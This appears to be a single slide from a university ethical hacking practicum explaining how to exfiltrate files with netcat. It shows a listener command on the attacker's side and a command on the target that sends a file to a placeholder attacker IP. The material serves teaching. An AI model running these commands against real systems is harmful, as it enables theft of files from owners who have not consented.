

# Shell fundamentals with netcat
File exfiltration
Attacker listens on port ready to pipe received data to a file.

Target machine sends data via netcat to the attacker machine.

The flow
Attacker: nc –l –p 4445 > valuable_file.ppt

Target: nc <attacker IP> 4445 < valuable_file.ppt
Real-world systems: ethical hacking practicum – UW Summer 2021